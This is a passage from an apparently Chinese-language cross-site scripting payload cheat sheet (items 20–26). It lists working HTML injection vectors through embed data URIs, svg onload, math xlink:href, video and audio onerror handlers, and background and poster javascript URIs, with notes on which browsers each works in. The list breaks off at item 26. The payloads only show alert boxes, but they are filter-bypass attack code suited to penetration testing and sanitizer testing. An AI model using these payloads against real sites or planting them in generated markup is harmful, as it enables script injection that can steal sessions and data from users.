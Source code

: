    ```html
    <embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4="></embed> //chrome 
    ```

    ```html
    <embed src=javascript:alert(1)> //firefox
    ```

20. svg标签

    ```html
    <svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg>
    ```

    ```html
    <svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>  //chrome有效
    ```

21. math标签

    ```html
    <math href="javascript:javascript:alert(1)">CLICKME</math> 

    <math><y/xlink:href=javascript:alert(51)>test1 

    <math> <maction actiontype="statusline#http://wangnima.com" xlink:href="javascript:alert(49)">CLICKME 
    ```

22. video标签

    ```html
    <video><source onerror="alert(1)"> 

    <video src=x onerror=alert(48)>
    ```

    ​

23. audio标签

    ```html
    <audio src=x onerror=alert(47)>
    ```

24. background属性

    ```html
    <table background=javascript:alert(1)></table> // 在Opera 10.5和IE6上有效
    ```

    ​

25. poster属性

    ```html
    <video poster=javascript:alert(1)//></video> // Opera 10.5以下有效
    ```

26. code属性
